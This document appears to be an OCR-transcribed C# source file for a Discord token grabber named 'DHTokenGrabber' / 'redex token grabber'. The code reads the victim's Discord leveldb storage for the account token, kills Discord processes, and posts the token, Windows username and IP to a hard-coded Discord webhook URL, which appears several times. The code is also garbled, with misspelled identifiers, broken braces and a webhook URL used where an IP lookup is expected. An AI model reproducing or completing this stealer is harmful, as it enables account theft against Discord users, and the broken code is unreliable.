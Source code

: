 https://discord.com/api/webhooks/933088772256579625/cvD00s18NiKU1JapiooNkjo1XOAjTDLwHSIMITlg95O3ztZAkvwaSeEBmMLSrsrWAwj3
staff
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/933088772256579625/cvD00s18NiKU1JapiooNkjo1XOAjTDLwHSIMITlg95O3ztZAkvwaSeEBmMLSrsrWAwj3").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "AlbeiroDos1131#5222"
                "redex token grabber"
            },
            {
                "Discord undefined//discord.com/assets/652f40427e1f5186ad54836074898279.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/933088772256579625/cvD00s18NiKU1JapiooNkjo1XOAjTDLwHSIMITlg95O3ztZAkvwaSeEBmMLSrsrWAwj3, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
    
   
